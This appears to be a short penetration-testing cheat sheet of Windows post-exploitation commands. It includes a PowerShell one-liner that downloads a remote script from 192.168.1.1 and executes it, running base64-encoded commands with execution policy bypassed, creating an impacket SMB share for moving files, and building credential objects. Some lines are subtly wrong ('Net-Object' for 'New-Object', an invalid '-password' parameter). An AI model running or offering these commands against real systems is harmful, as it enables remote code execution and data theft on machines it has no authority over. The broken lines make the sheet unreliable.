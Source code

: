 ### Download and execute ps1

```
IEX(New-Object Net.WebClient).downloadString('http://192.168.1.1/blah.ps1')
```

### Execute command from base64

https://stackoverflow.com/questions/37996640/how-can-i-base64-encode-a-string-on-linux-so-it-matches-windows-unicode-getbyte

First convert your payload to utf16 little endian
```
echo test | iconv -f ascii -t UTF-16LE
```

```
powershell -exec bypass -EncodedCommand <base64>
```

### Create smb share:

From impacket:
```
impacket-smbserver -username username -password password shareName shareDirectory -smb2support
```

From powershell:

```
New-PSDrive -name username -password password \\ip\shareName -Credential $cred -PSProvider "filesystem"
```

### Create credential

```
$pass = "password" | ConvertTo-SecureString -AsPlainText -Force
$cred = Net-Object System.Management.Automation.PsCredential('username', $pass)
```

### CD into share

```
cd \\<ip>\<share>
```
